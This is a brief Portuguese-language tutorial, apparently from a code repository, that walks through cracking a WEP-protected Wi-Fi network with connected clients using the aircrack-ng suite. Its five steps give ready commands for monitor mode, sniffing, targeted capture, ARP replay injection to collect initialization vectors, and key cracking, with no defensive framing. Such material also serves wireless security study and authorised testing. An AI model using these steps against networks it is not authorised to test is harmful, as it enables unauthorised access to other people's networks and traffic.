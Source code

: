## Atacando WEP com clientes conectados

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo

 ``` airodump-ng <interface> ```


#### 3° passo:

Focar o sniffing na rede alvo para capturar o trafego...

 ``` airodump-ng --essid NAME --channel CHANNEL <interface> -w CAPNAME ```

#### 4° passo:

Fazer um "bombardeio" de pacotes ARP em um clientes para podermos capturar os Vetores de Inicialização (iv's)

 ``` aireplay-ng -3 --bssid BSSIDAP -h CLIENTBSSID <interface> ```
 
* Depois de começar o envio dos pacotes ARP fique de olho no campo #Data que está no terminal do airodump. Este campo precisa  aumentar de valor até a faixa dos 70/80 mil dados, para termos certeza de que o ataque sera bem sucedido...

#### 5° passo:

Quebrar o WEP por brute force

 ``` aircrack-ng -a 1 arquivo.cap ```
 
 
...
